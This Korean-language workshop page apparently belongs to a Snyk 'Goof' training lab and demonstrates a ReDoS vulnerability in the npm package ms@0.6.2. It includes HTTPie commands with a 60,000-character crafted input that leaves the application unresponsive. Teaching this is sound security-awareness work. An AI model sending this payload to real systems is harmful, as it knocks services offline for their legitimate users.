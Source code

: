 # Example 3

세 번째 예제 취약점은 [`ms`](https://www.npmjs.com/package/ms) npm 패키지에 있습니다. 다양한 시간 형식을 밀리초로 쉽게 변환할 수 있는 모듈입니다. 여기서 문제는 우리가 `ms@0.6.2`를 사용하고 있고 여기에 [ReDos(Regular Expression Denial of Service)](https://snyk.io/test/npm/ms/0.6.2) 취약점이 있다는 것입니다.

![](https://partner-workshop-assets.s3.us-east-2.amazonaws.com/vuln\_ms.png)

이 패키지를 통해 우리가 할 수 있는 것은 문자열 입력을 받아 애플리케이션이 미리 알림을 보내는 데 사용할 밀리초 단위로 구문 분석하는 것입니다. 예를 들어:

![](../../../../.gitbook/assets/tgye3UMxmo.gif)

이 취약점을 시연하기 위해 터미널로 이동합니다. 애플리케이션에 대해 다음 명령을 실행해 보겠습니다:

```
echo 'content=Reboot server in 20 minutes' | http --form $GOOF_HOST/create -v
```

결과는 다음과 유사한 콘솔 출력입니다.

```
POST /create HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 36
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Host: elb.amazonaws.com
User-Agent: HTTPie/2.1.0

content=Reboot server in 20 minutes

HTTP/1.1 302 Found
Connection: keep-alive
Content-Length: 28
Content-Type: text/html; charset=utf-8
Date: Sat, 13 Jun 2020 21:20:16 GMT
ETag: W/"1c-41a86905"
Location: /
Vary: X-HTTP-Method-Override
X-Powered-By: Express

UmVib290IHNlcnZlciBbMjBtXQ==
```

해당 웹 결과는 다음과 같습니다:

![](https://partner-workshop-assets.s3.us-east-2.amazonaws.com/goof\_ms\_01.png)

이제 이전 명령을 사용하여 숫자 5를 총 60,000번 인쇄합니다. 이 정규식은 입력을 처리하는 데 비선형적인 시간이 걸립니다. 입력이 길수록 처리 시간이 길어집니다. 다음 명령어를 실행해보자

```bash
echo 'content=Reboot server in '\`printf "%.0s5" {1..60000}\`' minutes' | http --form $GOOF_HOST/create -v
```

결과는 놀라울 정도로 빨랐습니다. 그러나 정규식이 일치하지 않으면 어떻게 됩니까? 이를 설명하기 위해 동일한 명령을 사용하고 몇 분 안에 s를 a로 교체해 보겠습니다. 다음 명령을 입력합니다.

```bash
echo 'content=Reboot server in '\`printf "%.0s5" {1..60000}\`' minutea' | http --form $GOOF_HOST/create -v
```

이 명령은 처리하는 데 시간이 걸리며 애플리케이션이 응답하지 않습니다. 작업을 추가하거나 제거하려고 하면 응용 프로그램이 응답하지 않으며 합법적인 요청이 처리되지 않도록 차단됩니다.
